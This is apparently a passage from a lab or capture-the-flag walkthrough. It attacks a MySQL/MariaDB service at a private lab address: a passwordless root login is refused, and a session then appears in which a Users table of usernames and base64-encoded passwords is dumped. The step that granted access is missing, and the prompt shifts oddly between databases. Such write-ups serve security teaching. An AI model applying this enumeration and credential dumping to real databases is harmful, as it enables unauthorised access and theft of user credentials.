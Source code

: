 ### 192.168.56.103 - 3306

```bash
mysql -u root --host 192.168.56.103
ERROR 1045 (28000): Access denied for user 'root'@'192.168.56.102' (using password: NO)
```

### Exploit

#### passwords

```sql
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 123
Server version: 5.5.47-0+deb8u1 (Debian)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]>
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| Users              |
+--------------------+
2 rows in set (0.001 sec)

MySQL [(none)]> use Users
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [Users]> show tables;
+-----------------+
| Tables_in_Users |
+-----------------+
| users           |
+-----------------+
1 row in set (0.001 sec)

MySQL [Users]> select * from users;
+------+------------------+
| user | pass             |
+------+------------------+
| kent | Sld6WHVCSkpOeQ== |
| mike | U0lmZHNURW42SQ== |
| kane | aVN2NVltMkdSbw== |
+------+------------------+
3 rows in set (0.001 sec)

MySQL [(none)]> help;

General information about MariaDB can be found at
http://mariadb.org

List of all MySQL commands:
Note that all text commands must be first on line and end with ';'
?         (\?) Synonym for `help'.
clear     (\c) Clear the current input statement.
connect   (\r) Reconnect to the server. Optional arguments are db and host.
delimiter (\d) Set statement delimiter.
```
